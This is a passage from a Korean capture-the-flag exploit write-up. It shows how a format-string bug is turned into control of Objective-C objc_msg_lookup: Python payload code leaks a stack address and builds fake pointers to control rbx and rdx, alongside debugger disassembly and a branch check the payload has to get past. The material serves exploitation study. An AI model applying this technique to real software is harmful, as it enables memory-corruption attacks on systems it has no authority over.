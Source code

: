 이제 이 조건을 만족 시킬 수 있도록 페이로드를 구성하면 됩니다.

분석을 해보면 제 페이로드는 2곳에 존재합니다. (스택, 힙) 다른 라이트업에서는 힙을 이용해서 공략했으니 저는 스택을 이용해보도록 하겠습니다. 사실 스택 위치를 구하는거랑 힙 위치를 구하는게 별 차이가 없기 때문에 익스 자체는 크게 상관은 없습니다.

먼저 제 페이로드가 시작하는 위치를 구해야 합니다. 여러 가지 방법이 있을 수 있는데 고정적인 스택을 이용하여 오프셋으로 제 페이로드 시작 위치를 구해주면 됩니다.

```
payload = "%140$lx"
p.sendline(payload)
data = p.recv()
stack_addr = int(data.split("] ")[1][:-1], 16) - 0x150 - 0x400
print "PAYLOAD : {}".format(hex(stack_addr))
```

한 가지 주의할 점은 원래 트리거 시에 `%12$@`으로 트리거 시켯지만 실제 우리의 페이로드는 포멧 스트링 다음에 위치해야 하므로 처음에 포멧 스트링을 8바이트 정렬을 한 값도 포함시켜야 합니다. 따라서 포멧 스트링 (8바이트)은 `%13$@ZZZ` 로 하고 그 뒤에 우리의 페이로드가 붙습니다.

처음 크래쉬 위치의 어셈블 코드를 보면 `rdi`를 컨트롤 할수 있기 때문에 `rbx`도 오염되고 따라서 `rbx+0x40` 역시 컨트롤 하여 `rdx`까지 오염시킬 수 있습니다.

```
► 0x7ffff73f3c83 <objc_msg_lookup+19>    mov    rbx, qword ptr [rdi]
  0x7ffff73f3c86 <objc_msg_lookup+22>    mov    rax, qword ptr [rsi]
  0x7ffff73f3c89 <objc_msg_lookup+25>    mov    rdx, qword ptr [rbx + 0x40]
```

일단 스택 위치로 넣어 봅니다.

```
(assume that payload already had '%13$@ZZZ')
payload = p64(stack_addr) + "A"*8             # rbx = &payload
payload += "B" * 0x30
payload += p64(stack_addr+0x50) + "C"*8       # rdx = [rbx+0x40]
payload += p64(stack_addr+0x50) + "D"*8       # rdx = &payload + 0x50
payload += "E" * 0x10
paylaod += "F" * 8 + "Z" *8
```

`rdx`는 `[rbx+0x40]`을 갖는데 `p64(stack_addr+0x50)`으로 한 이유는 좀더 유연하게 제가 원하는 값을 넣기 위해 설정했습니다.

그리고 `rdx`를 쉽게 다루기 위해 `rdx`위치 역시 `rdx`를 가리키도록 했습니다.

이제 플로우를 태워보면 처음에 맞춰야 하는 조건은 다음과 같습니다.

```
	cmp 	r8, [rdx+0x28] ; [*] <-- HERE
/---jb  	10CC0
|
| (FALSE) jmp if r8 < [rdx + 0x28] - cond_1 < 0x70
|
\-->mov 	rax, [rdx+8]
    mov 	rax, [rax]
```

`r8`과 `[rdx+0x28]`을 비교 하는데 이 조건이 `True`가 되면 `deadend` 루틴으로 가기 때문에 `False`로 만들어야 합니다. 테스트 해보면 `r8`값이 `0x70`을 갖기 때문에 `[rdx+0x28]` 값은 `0x70`보다 작아야 합니다.

위에서 마지막 `Z * 8`의 위치가 `[rdx+0x28]` 이기 때문에 이 값을 0으로 설정합니다.
